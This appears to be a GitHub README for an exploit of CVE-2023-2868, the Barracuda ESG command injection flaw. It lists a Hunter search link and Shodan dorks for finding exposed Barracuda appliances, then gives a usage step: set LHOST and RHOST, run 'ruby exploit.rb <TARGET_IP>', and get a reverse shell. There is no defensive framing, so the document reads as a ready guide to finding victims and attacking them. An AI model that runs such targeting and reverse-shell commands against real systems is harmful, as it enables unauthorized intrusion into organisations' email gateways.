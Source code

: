 # CVE-2023-2868
Barracuda ESG Command Injection 
- [Hunter Search Link](https://hunter.how/list?searchValue=product.name%3D%22Barracuda%20Networks%20Spam%20Firewall%20smtpd%22)

- Shodan dorks:
```
product:"Barracuda Networks Spam Firewall smtpd"
```
```
http.waf:"Barracuda (Barracuda Networks)"
```
```
html:app_common::nonetwork.title
```
- Usage

Set LHOST and RHOST variables to your listener.

```
ruby exploit.rb <TARGET_IP>
```

This will spawn a reverse shell.
